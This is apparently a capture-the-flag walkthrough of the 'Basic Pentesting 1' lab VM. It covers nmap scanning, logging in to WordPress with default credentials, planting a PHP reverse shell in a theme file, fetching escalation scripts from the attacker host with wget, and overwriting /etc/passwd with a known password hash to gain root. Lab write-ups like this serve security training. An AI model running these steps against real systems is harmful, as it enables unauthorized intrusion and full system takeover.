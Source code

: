# Basic Pentesting 1

### Find own IP/Network

    ifconfig

        >eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.30.131  netmask 255.255.255.0  broadcast 192.168.30.255

### Scan Network

Here we see http port 80 is open on our target

    nmap 192.168.30.0/24
    
>Nmap scan report for 192.168.30.128
Host is up (0.00072s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:04:64:FF (VMware)

    
### Add host to hosts file for convenience

    echo 192.168.30.128 vtcsec >> /etc/hosts
    
    
### Enumerate HTTP

    nmap --script=http-enum vtcsec
  
  
  
>Nmap scan report for vtcsec (192.168.30.128)
Host is up (0.00020s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
| http-enum: 
|_  /secret/: Potentially interesting folder
MAC Address: 00:0C:29:04:64:FF (VMware)

### The wordpress site

Navigate to:
    
    vtcsec/secret
    
This is found to be a wordpress site. Try the default login page wp-login.php to see if it works

    vtcsec/secret/wp-login.php
    
 Login Page Found

Test Default Password

    Login: admin
    Pass: admin
    

### Upload Reverse shell script

Check themes, what is currently active?

    Appearance > Themes
    
Edit a 404.php page

    Appearance > editor > (select a non active theme. here I use twentysixteen) > 404 template(404.php)
    
Copy and paste Pentestmonkey PHP Reverse Shell script. (Don't forget to set the local port and ip! Here I use port 7777)
    
    (Modify this stuff)
    $ip = '192.168.30.131'; //CHANGE THIS
    $port = '7777'; //CHANGE THIS


### Set up listener

    nc -lvp 7777
    
### Open page and load the 404.php

    (open in browser) vtcsec/secret/wp-content/themes/twentysixteen/404.php
    
    or
    
    curl vtcsec/secret/wp-content/themes/twentysixteen/404.php
    
Reverse shell received
    
>root@kali:~# nc -lvp 7777
listening on [any] 7777 ...
connect to [192.168.30.131] from vtcsec [192.168.30.128] 57100
Linux vtcsec 4.10.0-28-generic #32~16.04.2-Ubuntu SMP Thu Jul 20 10:19:48 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 05:37:43 up 50 min,  0 users,  load average: 0.00, 0.00, 0.02
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
    
    
### Privilege Escalation

Upload an escalation checker script. LinEnum.sh used here

        cd <folder with script>
        python -m SimpleHTTPServer 1234
        
On reverse shell, navigate to a world writable folder and download

        cd /tmp
        wget 192.168.30.131:1234/LinEnum.sh
        
>$ wget 192.168.30.131:1234/unix-privesc-check
--2018-12-11 06:22:18--  http://192.168.30.131:1234/unix-privesc-check
Connecting to 192.168.30.131:1234... connected.
HTTP request sent, awaiting response... 200 OK
Length: 49721 (49K) [application/octet-stream]
Saving to: 'unix-privesc-check'

     0K .......... .......... .......... .......... ........  100% 15.2M=0.003s

2018-12-11 06:22:18 (15.2 MB/s) - 'unix-privesc-check' saved [49721/49721]



### Run Script

        chmod +x unix-*
        (because i'm lazy af)
        ./unix-* standard | grep WARNING
        
Something interesting is found

>$ ./unix-* standard | grep WARNING                               
passwd: Permission denied.
Search the output below for the word 'WARNING'.  If you don't see it then
[UPC004] WARNING: /etc/passwd is a critical config file. World write is set for /etc/passwd
[UPC004] WARNING: /etc/passwd can be written to World write is set for /etc/passwd

### Changing passwords

Transfer file through apache folder since port 80 is already open

        cp /etc/passwd /var/www/html/
        
Go into an easily accessible folder on attacker machine(i used desktop) and download the passwd file

        cd ~/Desktop
        wget vtcsec/passwd

Edit the password

In any text editor of your choice, replace the 'x' inside the passwd file with the following for 'root' and 'marlinspike':

        $6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0
        (This basically means 'test')
        
 Close the previous python SimpleHTTPServer if it's still running. Run it again from the folder where the modifled passwd file is.
 
        cd ~/Desktop
        python -m SimpleHTTPServer 1234
        
 On the reverse shell, replace the /etc/passwd file with the modified one. use wget -O to output/overwrite
 
        wget 192.168.30.131:1234/passwd -O /etc/passwd
        
>ERROR: could not open HSTS store. HSTS will be disabled.
--2018-12-11 08:23:21--  http://192.168.30.131:1234/passwd
Connecting to 192.168.30.131:1234... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2558 (2.5K) [application/octet-stream]
Saving to: '/etc/passwd'
0K ..                                                    100%  195M=0s
utime(/etc/passwd): Operation not permitted
2018-12-11 08:23:21 (195 MB/s) - '/etc/passwd' saved [2558/2558]


### Logging in

Try to log in with the reverse shell
    
        $ su root
        su: must be run from a terminal

Annoying.. Open bash then

        $ python -c 'import pty;pty.spawn("/bin/bash")'
        www-data@vtcsec:/$ 

Switch user again. Don't forget we also changed marlinspike's password to 'test', we can use that account as well

        www-data@vtcsec:/$ su root
        su root
        Password: test
        root@vtcsec:/var/www/html# whoami
        root

